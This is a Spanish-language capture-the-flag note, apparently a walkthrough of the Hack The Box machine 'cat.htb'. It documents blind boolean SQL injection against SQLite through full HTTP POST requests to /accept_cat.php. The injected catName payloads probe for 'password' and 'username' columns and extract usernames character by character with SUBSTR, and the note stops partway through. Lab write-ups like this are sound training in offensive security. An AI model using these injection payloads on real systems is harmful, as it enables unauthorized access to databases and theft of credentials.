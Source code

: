 

SQLI:
![[Pasted image 20250207140253.png]]


### SQL BLIND BOOLEAN BASED
500 server INTERNAL ERROR:
![[Pasted image 20250207180808.png]]
### EXISTE LA TABLA USERS?:
![[Pasted image 20250207180840.png]]
### Existe la columna password?
```sql 
POST /accept_cat.php HTTP/1.1
Host: cat.htb
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=5k79n5uih9n3lf2i9n2cv21p4q
Content-Length: 103

catId=1&catName=test'||(SELECT 'true' FROM pragma_table_info('users') WHERE name='password' LIMIT 1)||'
```
![[Pasted image 20250208180856.png]]
También descubro la existencia de la columna "username"
```sql
POST /accept_cat.php HTTP/1.1
Host: cat.htb
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=5k79n5uih9n3lf2i9n2cv21p4q
Content-Length: 103

catId=1&catName=test'||(SELECT 'true' FROM pragma_table_info('users') WHERE name='username' LIMIT 1)||'
```
![[Pasted image 20250208181220.png]]

Pues ahora a sacar los Usernames y las passwords;

## Usernames & passwords Blind sqli
####  1. Payload Base para Extraer Caracteres del nombre
```sql
catId=1&catName=test'||(SELECT 'true' FROM users WHERE SUBSTR(username, N, 1) = 'STRING' LIMIT 1)||'
```

- N : es la coordenada del caracter, es decir N=1 primera string
- STRING : letra

Probamos con la a de Axel a ver si existe;
![[Pasted image 20250208182307.png]]
la b da un 500 Internal server erros por lo que comprobamos que el payload funciona!;
![[Pasted image 20250208182334.png]]
